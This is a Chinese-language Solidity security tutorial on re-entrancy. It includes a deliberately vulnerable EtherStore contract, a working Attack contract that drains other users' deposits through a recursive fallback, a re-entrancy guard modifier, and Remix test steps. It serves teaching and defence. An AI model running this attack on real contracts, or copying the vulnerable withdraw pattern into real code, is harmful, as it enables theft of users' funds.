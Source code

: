 # 66.Re-Entrancy
## 漏洞
重入攻击是智能合约中最常见的一种攻击，攻击者通过合约漏洞（例如fallback函数）循环调用合约，将合约中资产转走或铸造大量代币。
重入攻击的一个攻击点就是合约转账ETH的地方：转账ETH的目标地址如果是合约，会触发对方合约的fallback（回退）函数，从而造成循环调用的可能。当在攻击合约中的fallback()或receive()函数中重新调用了目标合约的withdraw()函数
假设合约A调用合约B。
重入攻击漏洞允许B在A完成执行之前回调A。
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

/*
EtherStore是一个合约，您可以存入和取出ETH。该合约容易受到可重入攻击的威胁。让我们来看看为什么。

1. 部署EtherStore
2. 从账户1（Alice）和账户2（Bob）各存入1个以太币到EtherStore
3. 部署攻击合约并指定EtherStore的地址
4. 使用账户3（Eve）调用Attack.attack函数并发送1个以太币。
   你将会得到3个以太币（其中2个以太币是从Alice和Bob那里被盗取的，另外1个以太币是从这个合约发送的）。

发生了什么？
攻击者能够在EtherStore.withdraw执行完成之前多次调用EtherStore.withdraw。

以下是函数的调用方式：
- Attack.attack
- EtherStore.deposit
- EtherStore.withdraw
- Attack fallback (收到 1 Ether)
- EtherStore.withdraw
- Attack.fallback (收到 1 Ether)
- EtherStore.withdraw
- Attack fallback (收到 1 Ether)
*/

contract EtherStore {
    mapping(address => uint) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() public {
        uint bal = balances[msg.sender];
        require(bal > 0);

        (bool sent, ) = msg.sender.call{value: bal}("");
        require(sent, "Failed to send Ether");

        balances[msg.sender] = 0;
    }

    // Helper function to check the balance of this contract
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}

contract Attack {
    EtherStore public etherStore;

    constructor(address _etherStoreAddress) {
        etherStore = EtherStore(_etherStoreAddress);
    }

    // 当EtherStore向此合约发送以太币时，将调用Fallback函数。
    fallback() external payable {
        if (address(etherStore).balance >= 1 ether) {
            etherStore.withdraw();
        }
    }

    function attack() external payable {
        require(msg.value >= 1 ether);
        etherStore.deposit{value: 1 ether}();
        etherStore.withdraw();
    }

    // 辅助函数，用来检查此合同的余额
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```
## 预防技术
* 确保在调用外部合约之前发生所有状态更改
* 使用函数修饰符防止重入
以下是一个防止重入的示例保护
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

contract ReEntrancyGuard {
    bool internal locked;

    modifier noReentrant() {
        require(!locked, "No re-entrancy");
        locked = true;
        _;
        locked = false;
    }
}
```
## remix验证
部署合约EtherStore，调用deposit()函数转入1ETH，显示余额为1ETH。
![66-1.png](./img/66-1.png)
部署合约Attack，输入合约EtherStore的地址，然后调用attack（）函数并转入1ETH，会进行重入攻击，显示余额为2ETH。
![66-2.png](./img/66-2.png)
